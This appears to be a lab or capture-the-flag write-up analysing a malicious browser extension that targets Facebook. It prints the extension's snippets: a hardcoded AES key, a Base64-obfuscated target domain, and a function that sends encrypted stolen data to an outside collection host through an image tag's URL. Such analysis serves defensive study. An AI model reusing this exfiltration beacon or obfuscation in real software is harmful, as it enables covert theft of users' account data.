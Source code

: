 
`crypto.js`
```js
(function() {
    window.CryptoUtils = {
        encrypt: function(data) {
            const key = CryptoJS.enc.Utf8.parse('SuperSecretKey123');
            const iv = CryptoJS.lib.WordArray.random(16);
            const encrypted = CryptoJS.AES.encrypt(data, key, { iv: iv });
            return encrypted.toString(CryptoJS.enc.Base64);
        }
    };
})();
```

## Question

### 1. Which encoding method does the browser extension use to obscure target URLs, making them more difficult to detect during analysis?

By examining the line:

```javascript
const targets = [_0xabc1('d3d3LmZhY2Vib29rLmNvbQ==')];
```
we can observe that the string `'d3d3LmZhY2Vib29rLmNvbQ=='` is encoded using **Base64**. 

**Answer:** **Base64 encoding**

### 2. Which website does the extension monitor for data theft, targeting user accounts to steal sensitive information?

After decoding that given b64 string, we get: "www.facebook.com" after we decode it.

```bash
echo "d3d3LmZhY2Vib29rLmNvbQ==" | base64 -d
```

**Answer:** **www.facebook.com**

### 3. Which type of HTML element is utilized by the extension to send stolen data?

by examining the function:

```javascript
    function sendToServer(encryptedData) {
        var img = new Image();
        img.src = 'https://Mo.Elshaheedy.com/collect?data=' + encodeURIComponent(encryptedData);
        document.body.appendChild(img);
    }
```
we can observe that the function uses the **img** tag to send the data to a remote server.

**Answer:** **<img>**
